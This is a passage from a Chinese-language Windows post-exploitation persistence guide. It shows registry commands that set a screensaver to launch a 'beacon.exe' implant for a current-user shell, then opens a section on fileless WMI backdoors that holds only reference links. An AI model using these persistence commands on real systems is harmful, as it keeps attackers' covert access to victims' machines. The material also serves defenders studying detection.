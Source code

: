 >   利用前提:对方开启了屏幕保护
>
>   屏幕保护程序，当初的设计是为了防止长期屏幕的显示，预防老化与缩短屏幕显示器老化的一种保护程序。

注册表位置:

```
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaverIsSecure
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut
HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE
```

```
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d C:\Users\hunter\Desktop\beacon.exe /f
reg add "hkcu\control panel\desktop" /v ScreenSaveActive /d 1 /f
reg add "hkcu\control panel\desktop" /v ScreenSaverIsSecure /d 0 /f
reg add "hkcu\control panel\desktop" /v ScreenSaveTimeOut /d 60 /f
```

如果从未设置过屏保程序的话，除“ScreenSaveActive”默认值为1，其他键都是不存在的，而屏保程序的正常运行必须保证这几个键都有数据才可以，因此必须把4个键都重写一遍。另外，经测试屏保程序最短触发时间为60秒，即使改成小于60的数值，依然还是60秒后执行程序。
当然，从注册表路径也可以看出这种方式只能获得当前用户权限的shell，优点是不需要提权即可维持。



### 0xA WMI构造无文件后门

WMI(Windows Management Instrumentation，即Windows管理规范)，大多数基于Windows的软件依赖于此服务。

>   [WMI的攻击，防御与取证分析技术之攻击篇](https://wooyun.js.org/drops/WMI%20%E7%9A%84%E6%94%BB%E5%87%BB%EF%BC%8C%E9%98%B2%E5%BE%A1%E4%B8%8E%E5%8F%96%E8%AF%81%E5%88%86%E6%9E%90%E6%8A%80%E6%9C%AF%E4%B9%8B%E6%94%BB%E5%87%BB%E7%AF%87.html)
>
>   [wmi与vbs](https://xz.aliyun.com/t/2080)
>
>   [利用WMI构建一个持久化的异步的无文件后门](https://m0nst3r.me/pentest/利用WMI构建一个持久化的异步的无文件后门.html)
>
>   [WMI利用专题](https://blog.51cto.com/antivirusjo/2092545)
>
>   [Powershell攻击指南黑客后渗透之道系列——进阶利用](https://www.anquanke.com/post/id/88851)
>
>   [A WMI Based Agentless Post-Exploitation RAT Developed in PowerShell](https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html)
>
>   [WMI Backdoor](https://www.tuicool.com/articles/zmUVbyJ)
>
>   [Appendix L: Events to Monitor](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/appendix-l--events-to-monitor)
>
>   [利用WMI打造完美“三无”后门](http://demon.tw/copy-paste/vbs-wmi-trojan-3.html)
>
>   [如何检测并移除WMI持久化后门？](https://www.tuicool.com/articles/IzieuyR)
>
>   [解析APT29的无文件WMI和PowerShell后门](https://www.anquanke.com/post/id/85851)
>
>   [无文件攻击的兴起与应对之道](https://www.aqniu.com/learn/31053.html)
